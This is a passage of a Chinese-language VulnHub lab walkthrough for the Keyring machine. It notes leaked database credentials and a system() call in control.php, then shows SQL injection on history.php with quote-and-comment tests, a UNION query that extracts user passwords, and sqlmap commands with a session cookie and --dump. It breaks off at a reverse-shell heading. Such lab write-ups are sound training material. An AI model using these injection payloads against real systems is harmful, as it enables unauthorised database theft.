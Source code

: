 访问地址，并访问其中的每个文件，发下每个文件都有数据库信息，这是作者怕忘了吗。

只有`control`这个，有`system()`函数，并且还注释到，这是不安全的函数

![](D:\stu\vulnhub\IA靶场\Keyring-pic\17.jpg)

整理这里获取的信息，首先是数据库

| 用户名 | 密码                  | 数据库  |
| ------ | --------------------- | ------- |
| `root` | `sqluserrootpassw0r4` | `users` |

然后是接收的`get`参数`cmdcntr`

那么测试在`control.php`这个参数是否可行，但是测试发现以`test`用户无法触发，说明需要获取`admin`的密码

## sql注入

那么当前可利用的点只有`history`，这里知道参数的，而且根据前面信息给出的数据库，猜测可能存在`sql`注入，尝试以`'`闭合，发现信息没了，有可能

```shell
history.php?user=admin'
history.php?user=admin' or 1=1--+
```

最终对比，存在`sql`注入的

![](D:\stu\vulnhub\IA靶场\Keyring-pic\18.jpg)

测试，还可以进行`union`查询，这里可以手工，也可以`sqlmap`，这里直接展示最终的手工注入命令

```shell
http://192.168.10.10/history.php?user=admin' union select concat(name,password) from details--+
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\19.jpg)

然后再用`sqlmap`测试，存在`sql`注入，这里还是需要以登录状态的，所以`cookie`要加上

```shell
sqlmap -u "http://192.168.10.10/history.php?user=admin" --cookie="PHPSESSID=bp3ie1j20iek5bpjc3f3gibabs"
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\20.jpg)

然后再把所有数据下载

```shell
sqlmap -u "http://192.168.10.10/history.php?user=admin" --cookie="PHPSESSID=bp3ie1j20iek5bpjc3f3gibabs" --dump
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\21.jpg)

## 命令执行反弹shell
